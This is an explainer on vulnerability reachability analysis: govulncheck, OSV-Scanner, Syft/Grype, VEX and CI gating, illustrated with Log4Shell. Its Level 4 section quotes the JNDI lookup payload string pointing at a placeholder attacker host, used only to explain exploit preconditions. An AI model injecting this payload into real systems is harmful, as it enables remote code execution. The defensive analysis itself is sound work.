

# Vulnerability Reachability: Is the Vulnerable Code Actually Executed?

## Overview

Every SCA scan ends with the same artifact: hundreds of CVE-tagged packages sorted by severity, most of which your binaries never execute. Reachability analysis re-ranks that list by asking the sharper question — "is the vulnerable function actually on a path our code can execute?" — and after Log4Shell demonstrated that *present* and *exploitable* can differ by orders of magnitude in remediation effort, the tooling that answers it became a product category of its own. This page owns the tool mechanics: how call-graph reachability analysis actually works per language, what govulncheck, OSV-Scanner, the Syft→Grype pipeline, and VEX attestations each contribute, and how to wire the results into CI gates without manufacturing false confidence. The conceptual framing and the process around this evidence live elsewhere: [The AppSec Toolchain](./appsec-toolchain.md) introduces reachability as the SCA frontier, and [Vulnerability & Exposure Management](./vulnerability-management.md) owns the prioritization funnel and SLA machinery that consume it.

## The Four Levels of Reachability

"The component is affected" hides four distinct questions, each strictly harder to answer and each more valuable when the answer is affirmative. Baseline SCA only establishes that a vulnerable *package* is present somewhere in an inventory; the reachability ladder descends to the vulnerable *function* and then to the *executed, triggerable* function:

| Level | Question answered | Evidence attached | Typical tooling |
|---|---|---|---|
| Baseline — component present | Is the vulnerable package anywhere in our inventory? | Lockfile, SBOM, image layers | Syft, Trivy, OSV-Scanner |
| 1 — function present | Did the vulnerable function survive into the shipped artifact? | Binary/bytecode symbol audit | `govulncheck -mode binary` |
| 2 — function loaded | Does the running process actually link and load it? | Linker maps, runtime probes, coverage | Test-execution instrumentation |
| 3 — on executable path | Is it called from any program entry point? | Static call graph with call stacks | `govulncheck`, OSV-Scanner call analysis |
| 4 — triggerable by input | Can attacker-controlled data drive execution there? | Taint paths, proof-of-concept | Taint toolchains, manual analysis |

```mermaid
flowchart LR
    BASE["Baseline: component present in SBOM or lockfile"]
    L1["Level 1: vulnerable function present in the shipped artifact"]
    L2["Level 2: function loaded and linked into the running process"]
    L3["Level 3: function on an executable path from entry points"]
    L4["Level 4: attacker input can trigger the vulnerable code"]
    BASE -->|binary and bytecode audit| L1
    L1 -->|runtime probes and linker maps| L2
    L2 -->|static call-graph analysis| L3
    L3 -->|taint tracking and dynamic testing| L4
```



The economics change at every rung. Baseline and level 1 are mechanical — resolve versions, grep symbol tables — and cost seconds per artifact, which is why they run on everything. Level 3 requires building a call graph, which costs minutes to hours per codebase and produces the first genuinely decision-grade evidence: a call stack you can hand to a service owner. Level 4 is where analysis meets attack engineering, because "called from somewhere" is not "driven by hostile input" — that jump is precisely the taint-analysis question covered in [Taint Tracking and Information Flow Control](./taint-tracking.md).

Each rung also fails differently, which is why a reachability claim is only meaningful when stated with its level. Level 1 is ecosystem-sensitive: Go's linker drops unreferenced functions, so absence from the binary is strong negative evidence, while a Java fat JAR bundles every class of every dependency whether or not anything calls it — presence in the JAR is nearly guaranteed, so Java's level-1 filter rarely relieves anyone. Level 2 adds the runtime dimension: JVM classes load lazily, containers ship libraries nothing ever imports, and a symbol can be linked without ever executing — evidence here comes from linker maps, runtime probes, or coverage instrumentation rather than from scanning. Levels 3 and 4 are where genuine program analysis begins, and they are the difference between "our code could call this" and "an attacker could make our code call this" — a distinction that decided which services patched within hours versus weeks during Log4Shell.

"Present but unreachable" still matters, which is why the ladder never deletes a finding. Three reasons keep it alive. Future code: a function nobody calls today is one new feature away from being called, and the static fact "the vulnerable symbol is linked in" is exactly what makes that future cheap for an attacker. Dynamic-dispatch surprises: static graphs are approximations, and reflection, framework magic, or a refactor can create a path the tool did not see. Compliance and hygiene: auditors and patch SLAs track vulnerable components, not call graphs, so unreachable findings still enter the normal patch cadence — reachability re-orders that cadence, it never voids it.

### Level 4 in Practice: From Reachable to Triggerable

The gap between levels 3 and 4 deserves its own worked example, because it is the difference interviews probe hardest. For Log4Shell, level-3 reachability was nearly universal: any service that logs calls `Logger.info`-style methods, and the static path from those methods through the message-pattern converter into `JndiLookup.lookup` exists in every vulnerable log4j-core build. Level 4 then stacks preconditions, each of which filters the fleet further:

- Attacker-controlled text becomes part of a logged message — `${jndi:ldap://attacker/...}` arriving in a user-agent or form field that a log pattern prints.
- Message lookups are enabled for the layout that prints it, so the string is *interpreted* rather than copied.
- The vulnerable version predates the 2.15/2.17 fixes, and lookup behavior was not disabled by configuration.
- The process can open an outbound connection to the attacker's LDAP or RMI endpoint — egress filtering is an incidental but real level-4 control.

Each precondition is a filter, and the survivors are the true exposure — which is why fleet-wide mitigation (deleting the JndiLookup class or setting `log4j2.formatMsgNoLookups=true`) beat patch-ordering as the first move: mitigation deletes the level-4 path everywhere at once without per-service analysis. The general lesson: level 3 is a property of code structure, level 4 is code structure plus deployment reality plus attacker access, and every "affected" claim should name which level it means. Taint-tracking toolchains mechanize exactly this precondition stacking — checking whether hostile input flows to the sink — which is why they, not call-graph tools, own level 4.

## Call-Graph Mechanics by Ecosystem

### How a Static Call Graph Is Built

All of these tools share one skeleton: nodes are functions or methods, edges are call sites, and reachability is graph traversal from a set of entry points. Building the edge set is where the difficulty and the ecosystem differences live, because an edge from a caller to a callee must be resolved for every dynamic construct — virtual and interface calls require knowing which implementations can appear at that call site. The classical resolution ladder, from cheapest and least precise to most precise, is class hierarchy analysis (CHA: every subtype could implement the method, so many spurious edges), rapid type analysis (RTA: restrict to types actually instantiated in the whole program), and full points-to analysis (track which objects each variable can hold — fewest spurious edges, highest cost). Go's govulncheck operates in this space with conservative interface handling; JVM tools face the same choices complicated by reflection and dynamic proxies; JavaScript and Python face it with no class hierarchy to lean on at all.

Two tuning knobs matter operationally. Entry-point selection determines where traversal starts — `main` for binaries, HTTP handlers and message consumers for services — and every unlisted entry point is a potential false "unreachable." Context sensitivity determines whether the analysis distinguishes call chains or merges them; merged contexts inflate the graph and produce the approximate stacks users see in reports. When a vendor claims function-level reachability, the follow-up questions are exactly these: which call-graph construction, which entry points, and what happens on reflection — the three answers separate real program analysis from a lockfile scan wearing a graph logo.

Traversal direction is a further design choice with visible consequences: forward analysis walks from entry points outward (answering "what can we reach"), while backward analysis starts from the vulnerable symbols and walks up the graph (answering "who can get here"). Backward traversal is what makes govulncheck tractable — it explores only the slice of the graph relevant to known-vulnerable symbols rather than the whole program. The two approaches can disagree at the margins because each prunes different corners, which is one more reason a reachability verdict should name its tool and mode.

### Java Bytecode Heritage: Eclipse Steady and the Two Evidence Sources

Eclipse Steady, developed out of SAP Research and open-sourced in the early 2010s, is the ancestor of every tool in this category: it asked "is this library method in *this application's* dependency actually used?" years before "reachability" was a marketing term. Its design combined two evidence sources that remain the canonical trade-off. First, a static call graph constructed over the application's bytecode plus its dependencies, which over-approximates: anything callable — through interfaces, inheritance, or framework-configured dispatch — tends to be marked reachable, so the static verdict errs toward "used." Second, execution probes: Steady instrumented the application at test time and recorded which library methods *actually ran* during unit and integration test suites, giving precise but coverage-bounded evidence — a method not exercised by tests is not necessarily unreachable in production, and every engineer knows their tests touch a fraction of real paths. Steady combined both into per-application library-usage reports with provenance tags, effectively an evidence hierarchy: static-graph-only < executed-at-runtime.

The lesson Steady taught, and why it matters in interviews, is that these two sources fail in opposite directions and mature programs use both. Static analysis is sound-ish but noisy — it answers "could this be called?" — while execution evidence is precise but bounded — it answers "was this called during the observed window?" Steady itself is archived and unmaintained (the JVM ecosystem's shift to Java 9 modules and increasingly reflection-heavy frameworks eroded its static footing), but the two-source model it embodied reappears verbatim in modern tooling: govulncheck's static call graphs are the first source, and eBPF-based runtime detection or test-coverage probes are the second.

The JVM world never got an official successor, so the space filled in around the edges: OWASP dependency-check and baseline SCA provide presence-level evidence, FindSecBugs-style bytecode analyzers answer taint questions rather than dependency-reachability ones, and commercial platforms re-implemented Steady's static-plus-heuristics model with varying rigor. The practical consequence is that JVM reachability today is a procurement decision, not a toolchain default — precisely the trade Go's toolchain authors chose to remove by shipping govulncheck themselves.

### Go: govulncheck and Why Reachability Became Official

Go is the first ecosystem where the language authors shipped reachability as an official tool, and the reasons are structural rather than fashionable. govulncheck, part of the `golang.org/x/vuln` module, performs static analysis of your source code against the Go vulnerability database — which is curated to include, per vulnerability, the list of *affected symbols* (function and method names). That symbol-level database is the keystone: without it, "reachable" can only mean "package X is imported somewhere," which is baseline SCA with better grammar. The tool loads your module's packages, builds a static call graph, and reports a finding only when a path exists from your program's entry points to a vulnerable symbol; each finding carries an example call stack, and `-show traces` expands full traces. `govulncheck -mode binary` downgrades to level-1 evidence: it reads the compiled binary's symbol table to find vulnerable functions the linker kept, but binaries do not carry call information, so binary mode reports no call stacks and may flag code that is present but statically unreachable.

Go's toolchain made this tractable where Java's was not: imports are explicit, there is no runtime classpath assembly, the linker dead-code-eliminates unreferenced functions so "in the binary" is already meaningful evidence, and module resolution via `go.mod`/`go.sum` pins exact versions unambiguously — the same lockfile-aware property OSV-Scanner generalizes. The honest limitations are documented in the tool's own help: calls through the `reflect` package are invisible to static analysis (false negatives), interface and function-pointer calls are analyzed conservatively (false positives and approximate stacks), and `unsafe` code can hide reachability. A representative abridged run:

```text
$ govulncheck ./...                        # run from the module root
Vulnerability #1: GO-2024-2611
    SSH server denial of service in golang.org/x/crypto
    Found in: golang.org/x/crypto@v0.14.0
    Fixed in:  golang.org/x/crypto@v0.17.0
    Example call stack:
      server.go:42:21: server.handleConn
        calls golang.org/x/crypto/ssh.NewServerConn

Your code is affected by 1 vulnerability from 1 module.
This scan found no other vulnerabilities in packages you import or
modules you require that were called by your code.
```

That closing summary line is the tool's entire value proposition in one sentence: it separates "present in modules you require" from "called by your code," and on real codebases the second list is routinely far shorter than the first. Exit codes are gate-friendly: zero findings exit 0, findings exit non-zero, while machine-readable formats (`-json`, `-format sarif`, `-format openvex`) always exit 0 so the CI step can post-process instead of blocking.

Integrations make the verdict actionable at PR scale. SARIF output plugs into GitHub code scanning so a reachable finding appears as an annotated alert carrying its call stack, `-mode extract` serializes just enough of a binary to re-scan it on machines without the full artifact, and gopls surfaces the same vulnerability data inside the editor. The consistency point worth repeating in interviews: one tool answers level 1 (binary mode) and level 3 (source mode), which lets a pipeline escalate evidence by rerunning the same analyzer instead of juggling vendors per level.

### JavaScript and Python: Dynamic Dispatch Breaks the Graph

The uncomfortable truth for JS/Python shops is that reachability is hardest exactly where dependency counts are highest. JavaScript's runtime does computation on the module graph itself: `require()` and `import()` accept computed paths, bundlers tree-shake but the served bundle differs from the repo, and frameworks register handlers through decorators, middleware chains, and side effects at import time — so the call graph is a function of configuration and runtime state, not of source alone. Python is the same species: `importlib`, `getattr` dispatch, entry-point plugin discovery, and decorator-driven registration (Flask routes, Celery tasks) mean the effective call graph exists only after startup. Java sits between the extremes: static dispatch dominates, but reflection, JNDI's string-driven lookups, and dependency-injection frameworks punch holes large enough that Log4Shell's entire exploit path ran through a string-interpreted lookup.

The consequence defines the tooling landscape: in these ecosystems, package-level "used if imported anywhere" is the honest ceiling for cheap static analysis, and anything stronger needs either language-specific heuristics (which produce false "unreachable" verdicts — the most dangerous output a tool can give, because it authorizes suppression of a real issue) or runtime evidence from tests and production instrumentation. This is why commercial reachability platforms advertise per-language coverage honestly or not, and why the question "what does your tool do with dynamic dispatch?" is the first one to ask any vendor. Where static claims are unreliable, dynamic detection fills the gap at runtime — the mechanism-by-mechanism story is in [Sanitizer Internals](./sanitizer-internals.md) for memory-class bugs and in eBPF-based detectors for the call-at-runtime evidence.

### The Tool Map

| Tool | Ecosystem | Analysis basis | Output granularity | Maturity |
|---|---|---|---|---|
| govulncheck | Go | Static source call graph vs the symbol-annotated Go vuln DB | Symbol + call stack | Official Go tooling, production-grade |
| OSV-Scanner call analysis | Go static; Rust experimental | Lockfile/SBOM resolution + per-language call graphs | Package by default; symbol where call analysis runs | Active Google project |
| Eclipse Steady | Java bytecode | Static call graph + test-execution probes | Per-method used/unused with evidence tags | Archived — the heritage tool |
| Syft + Grype | Any (via SBOM) | Inventory + feed matching; no code analysis | Package + CVE match | Production SBOM-pipeline standard |
| Trivy | Any | Integrated SBOM + scanning in one binary | Package + CVE match | Production generalist default |
| Commercial platforms | Multi-language | Proprietary call graphs, heuristics, runtime signals | Package-to-symbol claims, varying rigor | Commercial; verify claims per language |

Reading the table by the maturity column is the interview move: for Go you can assert symbol-level reachability with call stacks in CI today; for JVM/JS/Python you are choosing between conservative package-level claims, runtime evidence collection, and commercial tools whose per-language rigor you must verify yourself rather than trust.

## OSV-Scanner and the OSV Database

OSV-Scanner's differentiator is resolution quality before any reachability question is asked. Instead of pattern-matching filenames, it recognizes lockfiles and package manifests across ecosystems — `package-lock.json`, `yarn.lock`, `Cargo.lock`, `go.sum`, Python lock formats, OS packages from container images — and resolves the exact installed versions and their transitive dependency graphs, then queries the osv.dev database. That matters because manifests describe intent (`^4.17.0`) while lockfiles record truth (4.17.21), and because naive name-matching across ecosystems silently misfires: multiple registries host different packages under the same name with incompatible version schemes. Running `osv-scanner -r .` over a monorepo walks every recognized lockfile and returns findings per project, which is why it has become the default source-repo scanner even in shops that use Trivy for images.

osv.dev itself is the aggregation layer underneath: a single, open vulnerability database and API that merges GitHub Security Advisories, the Go vulnerability database, RustSec, PyPA advisories, Linux distribution feeds, and more into one schema. The schema is the part worth knowing in interviews: each record carries `affected[].ranges[].events` with explicit `introduced`/`fixed` version events (so range semantics are unambiguous rather than regex-guessed), and ecosystem-specific extensions — the Go entries carry affected-symbol lists, which is precisely the data govulncheck's call analysis consumes. The API supports point queries ("is package X at version Y affected?") and batch queries, and OSV-Scanner's `--call-analysis=all` / `--no-call-analysis` flags control which languages get call-graph treatment: static analysis for Go, experimental support for Rust, and package-level results everywhere else.

Output formats include human tables, JSON, and SARIF for GitHub code-scanning integration, and the project also ships guided-remediation modes that propose minimal upgrade sets rather than raw finding dumps. The aggregation is also the strategic point: osv.dev exists so scanners do not each maintain their own private merge of GitHub Advisories, RustSec, the Go database, and distribution feeds — one schema, one API, and per-ecosystem extensions where precision matters. Practical pipelines use batch queries during scans with cached results, and per-record modification timestamps allow incremental refresh rather than full re-pulls. Because the schema records version *events* rather than prose ("introduced in 1.2.0, fixed in 1.4.1"), automated tooling computes exact affected sets instead of parsing advisory text — the line that separates resolution-quality scanners from filename-grep scripts.

Equal honesty about what OSV-Scanner does *not* do: call analysis does not generalize to JavaScript, Python, or Java (package-level results there), a lockfile's presence is an assumption about how the project actually builds, and no reachability verdict substitutes for runtime evidence on dynamic stacks. Treat it as the best-in-class baseline layer whose Go and Rust results are the decision-grade exception, not the rule.

```bash
# SBOM-first: generate the inventory once at build time, match it many times
syft payments-api:2.3.1 -o cyclonedx-json > sbom.json
grype sbom:sbom.json --fail-on high          # gate: fail on any high-or-worse match

# Source-repo scanning: lockfile-aware resolution + call analysis where supported
osv-scanner -r . --call-analysis=all
```

## SBOM-First Pipelines: Syft and Grype

The reason Anchore split the work into two binaries is the same reason an SBOM exists at all: inventory is a durable artifact, vulnerability knowledge is a moving feed. Syft catalogs a container image, filesystem, or directory into a bill of materials (CycloneDX or SPDX); Grype matches that document against vulnerability feeds that update continuously. Split them and the lifecycle decouples: generate the SBOM once per build, then re-match the same document against fresh feeds every day without rebuilding — which is also what makes SBOMs useful beyond scanning, since an incident-response question ("which of our services contains component X?") is answered by querying stored SBOMs, not by re-scanning the world. Trivy's counter-design — one binary doing SBOM generation and matching — optimizes for CI simplicity and is a legitimate choice; the two-binary split optimizes for artifacts that outlive any single scanner version.

SBOM quality determines match quality, and the identifier scheme is where quality lives. Modern tooling matches primarily on PURLs (package URLs) — `pkg:npm/lodash@4.17.20` names ecosystem, package, and exact version without ambiguity — while legacy matching leans on CPE strings (`cpe:2.3:a:lodash:lodash:4.17.20:...`), which are name-matching conventions prone to false positives across ecosystems that share names. A high-quality Syft inventory carries PURLs plus license and origin metadata per package, and Grype's findings are only as credible as that resolution layer — the same principle OSV-Scanner's lockfile-awareness encodes.

The platform tier turns the SBOM from a per-build event into a standing capability: Dependency-Track ingests CycloneDX documents continuously, tracks component risk over time across a portfolio, and accepts VEX statements so that "not affected" verdicts live next to the inventory they justify. The operational test of a mature pipeline is the Log4Shell question — "which of our services contain component X?" — answered in minutes by querying stored SBOMs rather than in days by dispatching engineers to grep registries. That question, together with the provenance machinery that establishes whose SBOM this actually is, is worked through on [SBOM and SLSA](../../supply-chain/sbom-slsa.md).

Scope choices inside Syft change even the baseline answer: an image cataloged with all layers counts packages from layers a later layer deleted, while the squashed view reports what the running filesystem actually holds — deleted-layer false presence that shows up as phantom findings. Scanning a source directory answers "what would this build with today's manifest resolution," a forward-looking question distinct from the artifact SBOM's "what is in the shipped thing." Knowing which question a given SBOM answers is itself a level-0 discipline: inventories lie quietly when their scope is mismatched to the question asked.

Where does reachability plug in? Strictly *after* the SBOM: the SBOM answers "what is present," while reachability requires analysis of *your* code — call graphs, taint paths — and produces per-finding evidence that must be attached to the inventory rather than discovered from it. The pipeline shape is therefore Syft → Grype → reachability enrichment → platform/VEX ingestion, and each stage has a different update cadence: images rebuild daily, feeds update continuously, code analysis reruns per commit. The build-attestation machinery that guarantees *whose* SBOM this is lives in [Advanced Supply Chain Security](./supply-chain-advanced.md) and [Software Supply Chain Security](../supply-chain-security.md).

## VEX: Machine-Readable Not-Affected Statements

VEX — Vulnerability Exploitability eXchange — is the standardization of the sentence triage engineers write by hand every day: "product P is not affected by vulnerability V because reason R." A VEX document is machine-readable, so it can ride alongside an SBOM, be ingested by a platform, and *suppress a finding automatically* instead of via a ticket comment nobody's scanner reads. The status vocabulary is small and worth memorizing: `affected`, `not_affected`, `fixed`, `under_investigation`, `resolved`, `resolved_with_pedigree`. OpenVEX, the OpenSSF spec, is deliberately minimal — a JSON document whose statements carry status, vulnerability, products, timestamp, and an optional `justification` — while CSAF, the OASIS advisory format that succeeded CVRF, is the heavyweight alternative suited to vendors publishing formal advisories rather than CI tooling emitting per-build statements.

An OpenVEX document is small enough to be generated in CI: document-level metadata (author, role, timestamp) followed by an array of statements, each binding one status to one vulnerability and one or more products, with optional subcomponent relationships so a statement can say "product P is not affected because its subcomponent S carries the fix in this build." The minimality is deliberate — statements are meant to be machine-produced at build time rather than hand-written in a document editor, and the spec fits in a few pages precisely so tool authors implement it fully instead of partially. CSAF documents make the opposite trade: designed for human-readable advisory publication with product trees, revision histories, and scoring, they are what a vendor's security-advisory endpoint should speak, while OpenVEX is what a build pipeline should emit.

OpenVEX's justification values map one-to-one onto the reachability ladder, which is why the two belong in one mental model:

- `component_not_present` — baseline cleared: the component is not in the artifact at all.
- `vulnerable_code_not_present` — level 1: the vulnerable function did not survive linking or was compiled out.
- `vulnerable_code_not_in_execute_path` — level 3: the symbol is present but the static call graph reaches nothing.
- `vulnerable_code_cannot_be_controlled_by_adversary` — level 4 territory: execution happens but hostile input cannot drive it.
- `inline_mitigations_already_exist` — a compensating control covers it (think `log4j2.formatMsgNoLookups=true`).

Who may issue a VEX statement is a source of constant confusion: it is any party with standing over the product lifecycle — the supplier that builds the artifact, a repackager (a Linux distribution issuing VEX against its own package of an upstream library), or *you*, the organization acting as the supplier of the binaries you ship. That last case is why supplier VEX and local analysis coexist rather than compete. Suppliers are best positioned to say "the vulnerable code path is disabled in our build configuration" — they own the build — but most open-source maintainers publish no VEX at all, and a supplier's statement cannot know your call paths anyway. So the working pattern is layered: consume supplier VEX where it exists, run local reachability analysis for everything else, and mint internal VEX statements (evidence reviewed by your security team) that your scanners and platforms honor. A VEX `not_affected` is functionally a suppression with evidence attached, and it inherits the same governance rule as every suppression: it must carry an expiry or revisit date, because unreachable-today becomes reachable the quarter someone adds the call — the exception mechanics are owned by [Vulnerability & Exposure Management](./vulnerability-management.md).

## Economics: Triage Concentration and CI Gate Design

The numbers are why this category exists. Practitioner and vendor studies converge on the same shape: of the high-severity SCA findings on a typical service, a *majority* are unreachable, with large dependency-tree studies placing the unreachable share anywhere from roughly half to over 90% depending on stack and tool aggressiveness — Endor Labs' 2022 Java research reported on the order of 95% of reported vulnerabilities never invoked from application code, and Google's govulncheck launch analysis described symbol-level filtering removing a large fraction of module-level findings. Log4Shell is the canonical existence proof in miniature: Datadog's retrospective scans found roughly 38% of production Java services carrying a vulnerable `log4j-core` version, while the subset where the vulnerable lookup was both present *and* triggerable through their logging configuration was far smaller — three quarters of the panic was triage debt, not exposure. The economic translation: reachability analysis concentrates engineer-time on the minority of findings that can hurt you, which is the only way a small platform-security team scales across hundreds of services.

Gate design follows the same concentration principle, and the mature pattern is asymmetric:

| Finding class | CI behavior | Triage consequence |
|---|---|---|
| Reachable + in KEV or public exploit | Fail the gate | Emergency SLA, days |
| Reachable, high severity, no exploit signal | Fail or block release | Top of the standard SLA queue |
| Present, unreachable, evidence attached | Warn; suppress with expiry | Risk acceptance with a revisit date |
| Present, reachability unknown (dynamic stack) | Warn; route to queue | Human triage; consider runtime evidence |



Failing on reachable-plus-KEV keeps the blocking set small enough that developers respect it — a gate that blocks on every 9.8 gets an allowlist, and then it blocks on nothing. The metrics that tell you the program is healthy: noise-reduction ratio (reachable findings over total findings — the denominator you no longer pay for), median age of *reachable* findings as the SLA-health number, suppression-expiry burn-down (how many expired suppressions turned out to now be reachable — your drift rate), and the fraction of `not_affected` claims carrying attached evidence versus bare assertions.

Two failure patterns recur in real deployments and are worth naming in interviews. Gate rot: teams start by failing on all high findings, developers learn the allowlist habit, and within a year the gate blocks nothing — the cure is asymmetric gating (fail small, warn wide) from day one. Evidence theater: `not_affected` claims without attached reachability evidence, suppressions without owners, and expiry dates that roll forward automatically — which converts the reachability program into a noise-laundering machine. The metrics above exist to detect both patterns; a high noise-reduction ratio alongside a high drift rate means the analyzer's conservativeness setting, not the process, is what needs revisiting.

The unit of governance in all of this is the suppression record, and its anatomy is stable across organizations that do this well:

- The finding identity: CVE or OSV id, package, version, affected artifact and digest.
- The verdict and its level: present / reachable / triggerable, with the analysis level stated explicitly.
- The evidence: tool, mode, analyzer version, database snapshot, and the call-path (or absence-of-path) artifact itself.
- The owner and the reviewer: who requested the suppression and who approved it.
- The expiry and the drift review: when the verdict gets re-computed, and what happened last time.

A suppression missing any of these fields is not a suppression; it is an allowlist entry waiting to be exploited, and auditors increasingly read it exactly that way.

## Honest Limits

Static call-graph analysis has documented failure modes, and the good tools admit them in their own manuals: govulncheck's limitations section states that `reflect` calls are invisible (false negatives), interface and function-pointer calls are handled conservatively (false positives, approximate stacks), and binaries yield presence-level evidence only. Those caveats generalize: any dynamic-language or reflection-heavy stack will defeat pure static analysis, and the failure mode is asymmetric — a false *reachable* costs a wasted hour, while a false *unreachable* authorizes suppressing a live vulnerability. This is why trustworthy deployments pair static verdicts with runtime evidence (test-coverage probes, eBPF observation of executed functions) wherever the static story is weak, rather than trusting the static tool past its stated limits.

A practical subtlety is analyzer aggressiveness. Most reachability tools expose conservative modes (treat every interface call as reaching every implementation) and aggressive modes (prune edges the pointer analysis deems impossible), and teams pick per ecosystem based on how much dynamic dispatch the code actually uses — the honest default is conservative-until-validated. Aggressive settings look better on dashboards because they report fewer reachable findings, and they are exactly how false "unreachable" verdicts get manufactured at scale. The governance safeguard is evidence provenance: every suppression records which tool, which mode, and which database version produced the verdict, so the day a defect ships in the analyzer itself you know which past decisions to re-open.

Scale has its own failure mode. Reachability analysis is per-codebase, so a monorepo with thousands of services multiplies the cost, and stale call graphs produce stale verdicts — the cache that makes analysis affordable must invalidate on every dependency bump and build-config change, or your level-3 answers quietly rot. Organizations that skip this end up re-running analysis only when a scary CVE arrives, which is the most expensive possible schedule because it happens under incident pressure.

Reachability also decays. The verdict is a statement about the codebase at analysis time: a refactor that adds one call site, a feature flag that enables a plugin loader, or a config change flipping message lookups back on converts "unreachable" into "reachable" with no new CVE involved — which is the whole reason suppressions carry expiry dates and VEX statements carry timestamps. And the final limit is scope: even a perfect level-3 verdict answers "can our code reach it," not "can an attacker control the input that reaches it" — that gap is taint analysis and manual exploit reasoning, and it is where the remaining uncertainty in any program lives. None of this changes the cardinal rule: reachability re-orders patching, it never replaces it — unreachable findings still patch on the normal cadence; what reachability buys is the certainty that the reachable minority patches *first*.

## Cross-References

- [The AppSec Toolchain](./appsec-toolchain.md) — the SCA/SAST catalog and the "Reachability: The 2024+ Frontier" conceptual section this page deep-dives.
- [Vulnerability & Exposure Management](./vulnerability-management.md) — the prioritization funnel, SLA tiers, and suppression governance that consume reachability evidence.
- [Advanced Supply Chain Security](./supply-chain-advanced.md) — SBOM, SLSA provenance, and Sigstore: whose artifact the inventory claims to describe.
- [Software Supply Chain Security](../supply-chain-security.md) — SBOM formats, lockfile pinning, and the Log4Shell-day playbook.
- [SBOM and SLSA](../../supply-chain/sbom-slsa.md) — inventories vs provenance, and the Log4Shell inventory exercise in full.
- [Taint Tracking and Information Flow Control](./taint-tracking.md) — the related but different question: not "is it called" but "does attacker-controlled data flow to it."
- [Sanitizer Internals](./sanitizer-internals.md) — dynamic detection mechanics: runtime evidence as the complement to static reachability claims.

## Interview Questions

1. **Log4Shell lands right now. Walk me through the four reachability levels for `log4j-core` on our fleet.** Baseline: SBOM/lockfile queries say which services ship `log4j-core` ≤ 2.14.1 — with Java fat JARs that is close to "every Java service," which is why the initial blast-radius estimate looked apocalyptic. Levels 1–2: the vulnerable `JndiLookup` class is present and loaded in essentially all of them, so those two levels filter nothing. Level 3: a static Java call graph reaches `JndiLookup.lookup` from ordinary logging calls in nearly every app — still no relief. Level 4 is the whole game: the attack requires attacker-controlled *string data* flowing into a log statement with message lookups enabled, so a service that only logs fixed internal strings differs fundamentally from one that logs user-agent headers. That is why the correct first move was mitigation (`-Dlog4j2.formatMsgNoLookups=true` or stripping the class) applied fleet-wide, followed by targeted patching ordered by level-4 evidence — presence alone would have you patch three hundred services in a random order while the six actually exploitable ones sat wherever they landed alphabetically.

2. **Why did Go get an official reachability tool while Java, with far more tooling heritage, never did?** Because the prerequisites are structural, and Go happens to satisfy all of them. The Go vulnerability database publishes affected *symbol* lists per vulnerability — without symbol-level data there is nothing precise for a call graph to reach toward. Go builds are closed-world: explicit imports, no runtime classpath assembly, and a linker that dead-code-eliminates unreferenced functions, so "present in the binary" already means something. Module resolution via `go.mod`/`go.sum` pins exact versions, and dynamic dispatch is modest enough that a static call graph with conservative interface handling is honest within documented limits. Java has the opposite profile — reflection, JNDI, DI frameworks, and an enormous dynamic-analysis surface — which is exactly what sank Eclipse Steady's static ambitions despite its pioneering static-plus-runtime-probe design.

3. **A tool marks a CVE unreachable and you suppress it. Six months later it's exploited. What went wrong?** Most likely drift: the verdict was true at analysis time, and someone's new code created the call path — reachability is a property of the codebase snapshot, not of the vulnerability. The fix is governance, not better analysis: suppressions must carry expiry or revisit dates so the finding re-surfaces and re-analyzes, exactly as the vulnerability-management exception process requires. Second-most-likely: a false negative from the tool's documented blind spots — reflection or dynamic dispatch it cannot see, which is why dynamic-language findings route to human triage rather than auto-suppression. Third: the input dimension changed — level-3 "on an executable path" became level-4 "attacker-triggerable" when an attacker-facing feature shipped. If your metrics track suppression-expiry burn-down, you will see the first two coming; if they do not, you are running suppressions on faith.

4. **Why are Syft and Grype separate binaries, and where does reachability fit in that pipeline?** Because an SBOM is a durable inventory artifact while vulnerability knowledge is a continuously updating feed — separating them means you generate the SBOM once per build and re-match it against fresh feeds daily without rebuilding, and the same artifact serves incident-response queries and platforms like Dependency-Track. Trivy merges both into one binary, trading that decoupling for CI simplicity; both designs are defensible and the choice is about lifecycle, not capability. Reachability fits strictly *after* matching: the SBOM establishes "present," and reachability is computed over your code — call graphs in Go, taint or heuristics elsewhere — producing per-finding evidence that gets attached to inventory records or minted as internal VEX statements. The pipeline shape is therefore Syft → Grype → reachability enrichment → platform/VEX ingestion, and knowing that order is the interview answer.

5. **Who is allowed to issue a VEX "not affected" statement, and why do supplier VEX and local analysis both exist?** Any party with standing over the product lifecycle: the supplier building the artifact, a repackager such as a Linux distribution issuing VEX against its own packages, or your own organization acting as the supplier of the binaries it ships. Suppliers are uniquely positioned for build-level claims — "the vulnerable code was compiled out" or "the vulnerable path is disabled in our configuration" — because they own the build flags and configuration. But most open-source maintainers publish no VEX at all, and no supplier can see your call paths, so their statements cover a slice of your findings only. The working pattern layers them: ingest supplier VEX where it exists, run local reachability analysis for everything else, and emit internal VEX that your scanners honor — with every `not_affected` carrying a justification from the standard set and a revisit date, because a VEX suppression without expiry is just an allowlist.

6. **How is reachability analysis different from taint analysis, and when do you need both?** Reachability asks "is the vulnerable function on any executable path from program entry points" — a property of the call graph, attacker-agnostic. Taint analysis asks "can attacker-controlled data flow to that specific sink" — a property of dataflow, which is strictly a level-4 question on the ladder. You need reachability first because it is cheaper and prunes the candidate set by a large factor — that is its entire economic value. You need taint on the survivors, because Log4Shell-style bugs are reachable from every logging call yet triggerable only where hostile strings enter one; the difference between levels 3 and 4 decided which six services of three hundred patched within hours. In practice: static reachability in CI for the fleet, taint analysis or manual reasoning for the small reachable set on critical services, with runtime detection as the backstop where static claims are weakest.

## Key Takeaways

- "Component present" (baseline SCA) and "vulnerable function on an attacker-triggerable path" are four levels apart: present → loaded → executable path → triggerable by input — each harder to prove, each more valuable when proven.
- Two evidence sources anchor everything: static call graphs (sound-ish, over-approximate, cheap) and execution probes (precise, coverage-bounded) — Eclipse Steady established the pairing; govulncheck industrialized the static side.
- Go got official reachability because it could: a symbol-annotated vulnerability database, closed-world builds with dead-code elimination, and exact module pinning — structural properties, not tooling heroics.
- govulncheck reports call stacks for reachable vulnerable symbols and separates "in modules you require" from "called by your code"; binary mode degrades to presence evidence because binaries carry no call information.
- Dynamic languages invert the difficulty: reflection, computed imports, and framework magic make JS/Python reachability the least reliable precisely where dependency counts are highest — honest tools answer at package level and say so.
- OSV-Scanner's value is lockfile-aware resolution over the osv.dev aggregation schema (explicit introduced/fixed events, per-ecosystem symbol data); Syft→Grype splits inventory (durable artifact) from feed-matching (moving target) — and reachability enriches both from outside.
